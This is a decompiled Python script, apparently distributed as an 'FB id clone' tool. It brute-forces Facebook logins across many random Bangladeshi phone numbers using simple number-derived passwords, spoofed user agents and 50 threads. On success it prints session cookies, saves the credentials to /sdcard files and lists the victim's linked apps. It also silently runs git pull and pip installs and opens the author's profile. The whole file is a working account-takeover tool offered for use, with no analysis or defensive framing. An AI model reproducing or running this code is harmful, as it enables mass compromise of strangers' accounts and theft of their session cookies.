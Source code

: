 
#CREAT BY MD YOUSUF 
# Time Succes decompile : 2023-11-04 11:21:09.453795
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r[🔥] %s \x1b[1;95m  Your Active Apps      :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[🔥] %s \x1b[1;95m  Your Expired Apps     :{WHITE}'%(M))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print('')
 
def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100015315258519', {
            'cookie': coki }, **('cookies',)).text, 'html.parser')
        get = r.find('a', 'Ikuti', **('string',)).get('href')
        session.get('https://mbasic.facebook.com' + str(get), {
            'cookie': coki }, **('cookies',)).text
            
            
 
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
P = '\x1b[1;97m'
M = '\x1b[1;91m'
H = '\x1b[1;92m'
K = '\x1b[1;93m'
B = '\x1b[1;94m'
U = '\x1b[1;95m' 
O = '\x1b[1;96m'
N = '\x1b[0m'    
Z = "\033[1;30m"
sir = '\033[41m\x1b[1;97m'
x = '\33[m' # DEFAULT
m = '\x1b[1;91m' #RED +
k = '\033[93m' # KUNING +
xr = '\x1b[1;92m' # HIJAU +
hh = '\033[32m' # HIJAU -
u = '\033[95m' # UNGU
kk = '\033[33m' # KUNING -
b = '\33[1;96m' # BIRU -
p = '\x1b[0;34m' # BIRU +
asu = random.choice([m,k,xr,u,b])
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
os.system('xdg-open https://www.facebook.com/mbyousufmima.mima')
logo =("""\033[0;92m
\033[92;1m 😈────────────────────────────────────────────────────────😈
.%%%%%%..%%.......%%%%...%%..%%..%%%%%%..%%%%%..
.%%......%%......%%..%%..%%..%%....%%....%%..%%.
.%%%%....%%......%%%%%%..%%%%%%....%%....%%..%%.
.%%......%%......%%..%%..%%..%%....%%....%%..%%.
.%%%%%%..%%%%%%..%%..%%..%%..%%..%%%%%%..%%%%%..
\033[92;1m😈─────────────────────────────────────────────────────────😈
\033[92;1m║\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m 𝐌𝐑@YOUSUF 𝐕𝐄𝐑𝐒𝐎𝐍 𝟐.𝟎🔥
\033[92;1m║                                                     
\033[92;1m║\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m     𝐃𝐎𝐍'𝐓 𝐅𝐎𝐑𝐆𝐄𝐓 𝐀𝐋𝐋𝐀𝐇😊   
\033[92;1m😈───────────────────────────────────────────────────────────😈
\033[92;1m│\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m────────────────────\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m─────────────────────\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m│
\033[92;1m│           \x1b[1;33m╔══════════════════════════════════╗\033[1;91m            \033[92;1m│
\033[92;1m│           \x1b[1;33m║ \x1b[1;91m╔══════════════════════════════╗\033[1;33m ║            \033[92;1m│
\033[92;1m│           \x1b[1;33m║ \x1b[1;91m║\033[92;1m[\033[91;1m●\033[92;1m] 𝐓𝐨𝐨𝐥 𝐍𝐚𝐦𝐞  : FB id clone   \033[91;1m║ \x1b[1;33m║            \033[92;1m│
\033[92;1m│           \x1b[1;33m║ \x1b[1;91m║\033[92;1m[\033[91;1m●\033[92;1m] 𝐀𝐮𝐭𝐡𝐨𝐫      :  yousuf    \033[91;1m║ \x1b[1;33m║            \033[92;1m│
\033[92;1m│           \x1b[1;33m║ \x1b[1;91m║\033[92;1m[\033[91;1m●\033[92;1m] 𝐆𝐢𝐭𝐡𝐮𝐛       :  yousuf323215\033[91;1m║ \x1b[1;33m║            \033[92;1m│
\033[92;1m│           \x1b[1;33m║ \x1b[1;91m║\033[92;1m[\033[91;1m●\033[92;1m] 𝐅𝐚𝐜𝐞𝐛𝐨𝐨𝐤  : md yousuf         \033[91;1m║ \x1b[1;33m║            \033[92;1m│
\033[92;1m│           \x1b[1;33m║ \x1b[1;91m║\033[92;1m[\033[91;1m●\033[92;1m] 𝐆𝐑𝐎𝐔𝐏         :  tmx \033[91;1m║ \x1b[1;33m║            \033[92;1m│
\033[92;1m│           \x1b[1;33m║ \x1b[1;91m║\033[92;1m[\033[91;1m●\033[92;1m] 𝐖𝐡𝐚𝐭𝐬𝐀𝐩𝐩  :   𝟎𝟏733162557\033[91;1m║ \x1b[1;33m║            \033[92;1m│
\033[92;1m│           \x1b[1;33m║ \x1b[1;91m╚══════════════════════════════╝\033[1;33m ║            \033[92;1m│
\033[92;1m│           \x1b[1;33m╚══════════════════════════════════╝\033[1;91m            \033[92;1m│
\033[92;1m│\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m────────────────────\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m─────────────────────\033[91;1m●\033[96;1m●\033[93;1m●\033[94;1m●\033[95;1m●\033[96;1m●\033[92;1m│
\033[92;1m😈───────────────────────────────────────────────────────────😈
    """) 
loop = 0
oks = []
cps = []
 
def clear():
    os.system('clear')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
 
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
def xxr():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f' [{xr}^{x}] Example>: {xr}019,017,018,92302,92301,91778{x}')
    print(" ══════════════════════════════════════════")
    rk1 = '0171'
    rk2 = '0172'
    rk3 = '0175'
    rk4 = '017'
    code = random.choice([rk1,rk2,rk3])                      # input(f' [{xr}■{x}] Choose : ')
    os.system('clear')
    print(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m10000, \x1b[38;5;208m20000, \033[0;92m50000 ] \n\033[0;95m═════════════════════════════════════════ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = 0
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        jalan('\033[1;97m====================================================')
        jalan(f'[{xr}^{x}]\x1b[38;5;208m 𝐘𝐎𝐔𝐑 𝐓𝐎𝐓𝐀𝐋 𝐈𝐃𝐒: {xr}'+tl)
        jalan(f'{x}[{xr}^{x}]\033[0;92m 𝐏𝐋𝐄𝐀𝐒𝐄 𝐖𝐀𝐈𝐓 𝐘𝐎𝐔𝐑 𝐂𝐋𝐎𝐍𝐈𝐍𝐆 𝐏𝐑𝐎𝐂𝐄𝐒𝐒 𝐇𝐀𝐒 𝐁𝐄𝐄𝐍 𝐒𝐓𝐀𝐑𝐓𝐄𝐃')
        jalan(f'\033[0;97m[{xr}^{x}]\033[0;93 𝐔𝐒𝐄 𝐘𝐎𝐔𝐑 𝐌𝐎𝐁𝐈𝐋𝐄 𝐃𝐀𝐓𝐀 ' )
        jalan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208𝐔𝐬𝐞 𝐅𝐥𝐢𝐠𝐡𝐭 𝐌𝐨𝐝𝐞 𝐅𝐨𝐫 𝐒𝐩𝐞𝐞𝐝 𝐔𝐩')
        jalan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper 𝐅𝐚𝐬𝐭 𝐒𝐩𝐞𝐞𝐝 𝐂𝐥𝐨𝐧𝐢𝐧𝐠')
        jalan('\033[1;97m====================================================')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} ══════════════════════════════════════════")
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'mbasic.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
            'cache-control': 'max-age=0',
            # 'cookie': 'datr=zwaiY8oIpRJmusfwcUYR3gcl; sb=zwaiY5XKI6dYvdiAT8MfIAzF; wd=979x1831; dpr=2.34375; fr=0FGFgDcD2x3MSPEbJ..BjogbP.Fh.AAA.0.0.Bjt7jq.AWXveghp-AI',
            'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro}
            lo = session.post('https://mbasic.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[𝐁𝐈𝐒𝐇𝐀𝐋-𝐎𝐊💥] \033[0;97m'+uid+'\033[1;32m | \033[0;93m' +ps+    '  \n[‎‎🌺]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/BISHAL-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                #print('\r\r\33[1;30m[MKR-CP] ' +uid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/BISHAL-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s{x}[{xr}BISHAL{x}][%s|%s][OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass
 
xxr()
 
